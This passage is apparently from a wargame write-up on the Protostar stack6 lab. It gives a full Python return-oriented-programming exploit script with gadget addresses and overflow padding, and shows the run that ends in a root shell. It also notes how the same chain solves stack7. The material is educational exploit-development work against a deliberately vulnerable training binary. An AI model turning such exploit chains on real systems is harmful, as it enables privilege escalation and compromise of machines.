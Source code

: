 
Now I spin up vim and go to work on a python script:

```python
from struct import pack
CALLEAX = pack("<I", 0x804847f) #call eax ; leave ;;
XEAX = pack("<I", 0x804844b) #xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;
POPEDI = pack("<I", 0x8048577) #pop edi ; pop ebp ;;
POPEBX = pack("<I", 0x8048452) #pop ebx ; pop ebp ;;
SHLCD = pack("<I", 0xbfffffa7+50-8) #shellcode address +50 so we land in the NOPS and -8 because we added 8 before with the xchg gadget, doesn't matter that much but it's good habit to get into
PAD = "BBBB"


buf = "A" * 80 #overflow the buffer to just before the return address
buf += POPEDI #POP the address of the shellcode into EDI
buf += SHLCD #This is after because now it will be first on the stack when POPEDI is called
buf += PAD #fill in ebp with padding
buf += POPEBX #POP the safe address into ebx so it doesn't crash
buf += pack("<I", 0x62a4f184)
buf += PAD #plus padding for ebp
buf += XEAX #run the xchg to put the address of our shellcode into eax
buf += CALLEAX #call eax

print(buf) #profit
```

Following this we output to a file and run the exploit:

```
~/ $ python 2chainz.py > chain
~/ $ /opt/protostar/stack6 < chain
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB��bBBBB���
# id
uid=0(root) gid=0(root) groups=0(root),1001(user)
```

Sweet victory. 

From here solving stack7 is as easy as finding the new addresses of these gadgets with ROPeMe. The program is nearly identical to stack6 except for the fact that the return address is more restricted (can't start with 0xb). This was never an issue in the first place, though because we set the return address to 0x8048577 which is in the .text section anyway.

